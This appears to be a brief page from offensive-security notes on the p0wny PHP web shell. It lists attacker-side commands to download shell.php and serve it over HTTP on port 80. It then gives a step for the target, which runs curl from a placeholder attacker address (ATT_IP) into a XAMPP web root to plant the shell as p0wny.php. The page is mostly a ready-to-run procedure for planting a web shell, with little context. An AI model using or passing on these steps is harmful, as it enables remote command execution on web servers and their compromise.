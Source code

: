 # p0wny shell

{% embed url="https://github.com/flozz/p0wny-shell" %}



<pre class="language-bash" data-title="Attack machine"><code class="lang-bash"><strong>wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
</strong>
python3 -m http.server 80
</code></pre>

Upload the shell into the WebSite

{% code title="xamp example" overflow="wrap" %}
```bash
cd C:\xampp\htdocs
curl http://ATT_IP/shell.php -o p0wny.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
